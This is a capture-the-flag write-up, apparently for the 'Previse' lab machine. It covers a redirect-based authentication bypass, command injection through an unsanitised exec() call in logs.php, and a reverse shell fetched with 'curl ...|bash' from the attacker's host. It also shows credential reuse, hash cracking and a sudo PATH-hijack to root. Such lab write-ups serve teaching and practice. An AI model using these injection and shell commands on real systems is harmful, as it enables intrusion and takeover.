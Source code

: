 # Previse

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.185
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 11:41 EDT
Nmap scan report for 10.129.95.185
Host is up (0.0072s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### File Storage

Port 80 had a login page to some kind of file manager:

<figure><img src="../../../.gitbook/assets/image (545) (1).png" alt=""><figcaption></figcaption></figure>

This wasn't vulnerable to SQL Injection or anything. I tried visiting `index.php`, but was redirected back to the `login.php`. When the traffic is inspectedi nBurp, I noticed that `index.php` was still loaded.

<figure><img src="../../../.gitbook/assets/image (563).png" alt=""><figcaption></figcaption></figure>

This means that we can view the pages without logging in since they are loaded before we are redirected. When I used Burp's Match and Replace function to change the 302 Found to 200 OK, I could load the page normally:

<figure><img src="../../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

Within the Accounts tab, we can add a user.

<figure><img src="../../../.gitbook/assets/image (601).png" alt=""><figcaption></figcaption></figure>

So I created one and we can remove the Burpsuite filtering. Within the Files tab, there's a backup of the entire site uploaded.

<figure><img src="../../../.gitbook/assets/image (610).png" alt=""><figcaption></figcaption></figure>

We can download this file and analyse the source code back on my machine. Here's the `logs.php`.

```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
}
?> 
```

It seems that there's an `exec` function used, and the `delim` parameter is not sanitised when being passed in, thus creating a command injection vulnerability. We can send this request to confirm we have RCE.

```http
POST /logs.php HTTP/1.1
Host: 10.129.95.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: http://10.129.95.185
Connection: close
Referer: http://10.129.95.185/file_logs.php
Cookie: PHPSESSID=k0vg9j4gs59e7q9qokpv6rhugi
Upgrade-Insecure-Requests: 1


delim=comma; ping -c 1 10.10.14.13 
```

<figure><img src="../../../.gitbook/assets/image (579).png" alt=""><figcaption></figcaption></figure>

Now, we can get a reverse shell by using `curl http://10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (560).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### M4lwhere Creds

Within the `/var/www/html` file, there's a `config.php` file.

```
www-data@previse:/var/www/html$ cat config.php 
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

We can login to the `mysql` database using these credentials. Within it, we can find the credentials for the file system.

```
mysql> select * from accounts\G
*************************** 1. row ***************************
        id: 1
  username: m4lwhere
  password: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
created_at: 2021-05-27 18:18:36
*************************** 2. row ***************************
        id: 2
  username: test123
  password: $1$🧂llol$sP8qi2I.K6urjPuzdGizl1
created_at: 2023-05-06 09:26:49
2 rows in set (0.00 sec)
```

Using `hashcat`, we can crack this easily.&#x20;

```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

We can then `su` to `m4lwhere`.

<figure><img src="../../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

### Sudo Privileges

We can then enumerate `sudo` privileges.

```
m4lwhere@previse:/var/www/html$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Here's the script:

```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

This script was running `gzip` without the full path, so we can do some PATH injection. Create a script called `gzip` that makes `/bin/bash` an SUID binary via `chmod u+s /bin/bash`, then make it executable.&#x20;

Afterwards, change the PATH variable to include `/tmp` first and run the script as root.

```
m4lwhere@previse:/tmp$ export PATH=/tmp:$PATH
m4lwhere@previse:/tmp$ sudo /opt/scripts/access_backup.sh
```

It's easy to get a `root` shell afterwards.&#x20;

<figure><img src="../../../.gitbook/assets/image (561).png" alt=""><figcaption></figcaption></figure>
